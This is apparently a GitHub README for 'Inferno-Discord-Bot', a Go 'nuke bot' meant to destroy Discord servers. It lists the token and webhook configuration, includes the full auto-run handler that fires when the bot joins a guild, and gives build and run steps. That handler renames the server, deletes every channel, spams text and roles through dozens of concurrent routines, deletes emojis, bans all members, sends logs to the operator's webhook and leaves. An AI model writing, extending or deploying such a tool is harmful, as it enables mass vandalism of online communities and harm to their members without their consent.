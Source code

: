 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno-Discord-Bot
A powerful Discord nuke bot written on Go
<hr>

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_ID: Webhook's ID
    WEBHOOK_TOKEN: Webhook's Token
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
<p>/// All values are have string data type</p>

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
<h3>main.go - launches bot and OnGuildCreate handler from auto.go</h3>
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
<h3>auto.go - launches bot's functions from cogs folder if bot joined the guilld </h3>
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
  var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteChannels(s, event)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
    }
</pre>
<hr>
<h1>cogs folder</h1>
<p>There's located all bot's functions.</p>
<pre>
    channels.go: 2 functions (DeleteChannels, TextSpam)
    emoji.go: 1 function that deletes all emojis from the server
    leave.go: 1 function that leaves from the server
    members.go: 1 function that bans all members from the server
    rename.go 1 function that renames the server 
    roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
    webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>

# Installation guide

First of all you need to install golang (version: 1.20 or latest), then install packages godotenv and discordgo (versions in go.sum)

<pre>
DON'T FORGET TO CHANGE TOKEN AND WEBHOOK'S DATA IN .env FILE
</pre>

After that you can build your project or run main.go file.
